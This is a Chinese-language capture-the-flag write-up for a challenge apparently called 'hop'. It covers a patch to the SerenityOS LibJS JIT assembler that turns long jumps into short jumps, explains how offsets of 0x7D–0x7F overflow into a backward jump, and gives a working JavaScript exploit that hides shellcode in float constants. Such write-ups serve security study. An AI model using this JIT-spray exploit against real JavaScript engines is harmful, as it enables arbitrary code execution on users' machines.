

# hop

## patch analysis

给出的patch如下。
```
Base: https://github.com/SerenityOS/serenity/tree/fbde901614368dcf03d4a8eee800d8b89131465f

diff --git a/Userland/Libraries/LibJIT/X86_64/Assembler.h b/Userland/Libraries/LibJIT/X86_64/Assembler.h
index 79b96cf81f..465c4cb38c 100644
--- a/Userland/Libraries/LibJIT/X86_64/Assembler.h
+++ b/Userland/Libraries/LibJIT/X86_64/Assembler.h
@@ -472,12 +472,23 @@ struct X86_64Assembler {
     private:
         void link_jump(X86_64Assembler& assembler, size_t offset_in_instruction_stream)
         {
-            auto offset = offset_of_label_in_instruction_stream.value() - offset_in_instruction_stream;
+            auto offset = static_cast<ssize_t>(offset_of_label_in_instruction_stream.value() - offset_in_instruction_stream);
             auto jump_slot = offset_in_instruction_stream - 4;
-            assembler.m_output[jump_slot + 0] = (offset >> 0) & 0xff;
-            assembler.m_output[jump_slot + 1] = (offset >> 8) & 0xff;
-            assembler.m_output[jump_slot + 2] = (offset >> 16) & 0xff;
-            assembler.m_output[jump_slot + 3] = (offset >> 24) & 0xff;
+            if (offset <= INT8_MAX && offset >= INT8_MIN && assembler.m_output[jump_slot - 1] == 0xE9) {
+                auto small_offset = static_cast<int8_t>(offset + 3);
+                // JMP rel8
+                assembler.m_output[jump_slot - 1] = 0xEB;
+                assembler.m_output[jump_slot + 0] = small_offset;
+                // NOP3_OVERRIDE_NOP
+                assembler.m_output[jump_slot + 1] = 0x0F;
+                assembler.m_output[jump_slot + 2] = 0x1F;
+                assembler.m_output[jump_slot + 3] = 0x00;
+            } else {
+                assembler.m_output[jump_slot + 0] = (offset >> 0) & 0xff;
+                assembler.m_output[jump_slot + 1] = (offset >> 8) & 0xff;
+                assembler.m_output[jump_slot + 2] = (offset >> 16) & 0xff;
+                assembler.m_output[jump_slot + 3] = (offset >> 24) & 0xff;
+            }
         }
     };
 
```

该patch针对Serenity LibJS的JIT Compiler，当通过设定环境变量LIBJS_JIT启用JIT时，得到的JIT代码如果包含long jump，则将其修改为short jump指令。修改的方法为，如果在long jump的offset在INT8的范围内，则将offset加上3，并修改跳转指令为short jump指令。否则，将offset的四个字节全部写入跳转指令中。

这里存在一个问题，offset若为0x7D-0x7F，加3之后产生溢出，导致跳转指令变成负数，从而回跳到之前的位置执行，如果这一位置上存在我们布置好的数据，就能成功劫持控制流。

## 利用

利用方式就是尽量构造出一个long jump指令，并且使得它的offset在0x7D-0x7F之间。

通过一些尝试，我成功用下面的代码劫持了控制流：

```js
function func(a) {
  label: if (a == 1) {
    let a1 = 1;
    let a2 = 1;
    let a3 = 1;
    let a4 = 1;
    break label;
  }
  label2: if (a == 1) {
    let a1 = 1;
    break label2;
  }
  let a2 = 1;
  let a3 = 1;
  let a4 = 1.06296825408935569079460492503E0;
  let a5 = 1;
  let a6 = 1;
  return 0x78537865;
}
```

上面的代码会导致程序执行下面的指令。



接下来的工作是写入shellcode并搭配合适的跳转指令，使得程序能够完整执行shellcode。可以写入shellcode的位置包括a2-a6，最终的exp如下。

```js
function func(a) {
  label: if (a == 1) {
    let a1 = 1;
    let a2 = 1;
    let a3 = 1;
    let a4 = 1;
    break label;
  }
  label2: if (a == 1) {
    let a1 = 1;
    break label2;
  }
  let a2 = 5.27353071347005312808470611646e-179;
  let a3 = 8.73802723135704617618557676906e-1;
  let a4 = 1.10715770873430208176557698607;
  let a5 = 4.17238737852872382678707803996e-150;
  let a6 = 2.63486047652296056448306022844e-284;
  return 0x78537865;
}

for (var i = 0; i < 0x100000; i++) {
  func(false);
  func(false);
  func(false);
  func(false);
}

func(true);
```

 
